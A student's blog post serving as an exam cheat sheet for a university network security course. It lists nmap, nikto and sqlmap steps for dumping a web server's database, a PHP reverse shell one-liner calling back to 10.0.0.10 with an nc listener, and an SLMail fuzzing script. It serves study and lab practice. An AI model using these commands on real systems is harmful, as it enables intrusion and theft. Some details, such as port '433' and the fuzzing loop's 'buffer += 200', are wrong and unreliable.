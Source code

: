 ```yaml
---
layout: post
title: How to Hack (QUT CAB441 Cheat Sheet)
byline: My cheat sheets and preparation heading into the CAB441 Network Security exam.
date: 2018-10-29
tags: [ infosec ]
comments: false
---
```


## Purpose of this post
This cheat sheet is the main resource coming in with me into my CAB441 Network Security exam. As we have access to the internet, it was encouraged to create a sheet that would be readily accessible and CTRL-F-able.

## Table of contents
This sheet has been broken up into sections to match the three exam questions. Click any of the links in this table to quickly navigate to that section of the sheet.

1. Network Security
2. Web Penetration Testing
3. Exploiting Buffer Overflows


## Network Security

## Web Penetration Testing

### Resources

1. [Web Penetration Writeup](https://blog.vonhewitt.com/2017/09/tophatsec-freshly-vulnhub-writeup/): 
    A pen-test walk-through, *eerily* mirroring the web penetration testing practical.

2. [SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#ByPassingLoginScreens):
    The SQL injection cheat sheet used in the aforementioned walkthrough.

3. [nmap Cheat Sheet](https://hackertarget.com/nmap-cheatsheet-a-quick-reference-guide/):
    Simple `nmap` cheat sheet. The command `man nmap` is also very useful.


4. [nikto Cheat Sheet](https://duckduckgo.com/?q=nikto+cheat+sheet&atb=v138-7__&ia=cheatsheet&iax=cheatsheet): 
    Nikto scanner cheat sheet. `man nikto` can also be used on Kali.


5. [sqlmap Cheat Sheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)
    Sqlmap scanner cheat sheet. `man sqlmap` can also be used on Kali.

### Steps

1. Identify the devices by performing a ping scan.

    ```bash
      nmap <network>/24 -sn
    ```

2. After finding the devices, perform a service / port scan for each device.

    ```bash
      nmap <device> -sV
    ```

3. Since this is a web penetration test, use the results of the previous `nmap` scan to find which device is running a `http` or `ssl/http` service. These are typically on ports `80`, `433` or `8080` and contain words like `httpd`, `Apache`, etc.

4. When the target device has been identified, visit the pages in a web browser to see what's there. Alternatively, this could be done with the `curl` command. Check for common directories and files like `/login`, `sitemap.xml` and `robots.txt`.

5. If nothing in particular stands out from an initial inspection, use the `nikto` command to perform a more thorough inspection.

    ```bash
      nikto -host <target>
    ```

    Try running `nikto` with different tuning options. To focus on SQL Injection use the command

    ```bash
      nikto -host <target> -Tuning 9
    ```

    For more help with `nikto`, refer to `nikto -h` or `man nikto`.

    Note: Nikto is self described as being not stealthy, if stealth is your goal it may pay to spend more time on Step 4.

6. Nikto will return a bunch of information relating to your query. Most likely you'll see a bunch of directories and files on the server that may be of interest. You should inspect these files and look for any **SQL injection** opportunities.

7. When a page with a form or endpoint that is vulnerable to SQL injection is found, use the `sqlmap` tool to perform an attack.

    ```bash
      sqlmap -u "<url>" --wizard
    ```

    For the list of databases:
    ```bash
      sqlmap -u "<url>" --dbs
    ```

    For the tables in a database:
    ```bash
      sqlmap -u "<url>" --tables -D <database>
    ```

    For the contents of a table:
    ```bash
      sqlmap -u "<url>" --dump -D <database> -T <table>
    ```

8. Get a reverse shell! 

    The steps to get a reverse shell will depend on the content of the database. In the case of the practical, finding the contents of the database allowed you to log into the wordpress site that was present. After logging in, a php reverse shell script could easily be added to the site.

### Tips

1. Try accessing the site using different protocols. `https://` and `http://` are often used to show different things. 

2. `sqlmap` can often take ages, but it stores data to disk as it goes. So if you perform a keyboard interrupt you can often get right back to where you were.

3. The default table name for a Wordpress site is `wordpress8080`

4. The Wordpress admin page lives as `/admin`

5. [This gist](https://gist.github.com/rshipp/eee36684db07d234c1cc) shows an easy way to get a reverse PHP shell

    ```php
    <?php 
      exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'"); 
      ?>
    ```

    Before visiting the page, you should set up the listener.

    ```bash
    nc -nlvp 1234
    ```

6. Since the `POST` method doesn't show the data as query parameters, you will have to use the `--data` option of `sqlmap`. More information on using `sqlmap` with `POST` can be found [here](https://www.binarytides.com/using-sqlmap-with-login-forms/).

7. John the Ripper is a useful piece of software in Kali that can crack passwords.

## Exploiting Buffer Overflows

### Resources

Before attempting a buffer overflow, you should read up on how the CPU works on a low level.
1. [Program Counter / Instruction Pointer](https://en.wikipedia.org/wiki/Program_counter) 
2. [Call Stack](https://en.wikipedia.org/wiki/Call_stack)
3. [Buffer Overflow Overview](http://www.cse.scu.edu/~tschwarz/coen152_05/Lectures/BufferOverflow.html)
4. [SLMail Buffer Overflow Tutorial](https://www.hugohirsh.com/?p=509)

### Steps

1. Setup the machine with the vulnerability and open Immunity Debugger.

2. Attach Immunity Debugger to the application and start it up.

3. Determine how to cause the buffer overflow - you will most likely be told. When you know, you can start to fuzz the input to cause a crash. The following script was used for SLMail and comes from [here](https://www.hugohirsh.com/?p=509).

    ```python
    !/usr/bin/python
     
    import socket
     
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     
    buffer = "A" * 100
     
    while len(buffer) <= 4000:
        try:
            print"\nSending pwnicorns and rainbows...\n"
            print "We are fuzzing with a length of %s bytes" % len(buffer)
            s.connect(('<address>', 110))
            data = s.recv(1024)
            s.send('USER user ' + '\r\n')
            data = s.recv(1024)
            s.send('PASS ' + buffer + '\r\n')
            data = s.recv(1024)
            s.close()
            print"\nDone! Wonder if we got that shell back?"
            buffer += 200
        except:
            print "Could not connect to POP3 for some reason..."
    ```

4. Determine what part of the message ends up in the EIP / instruction pointer / program counter. This can be done by changing the letters at certain locations and re-performing the crash. See the SLMail tutorial for more info.
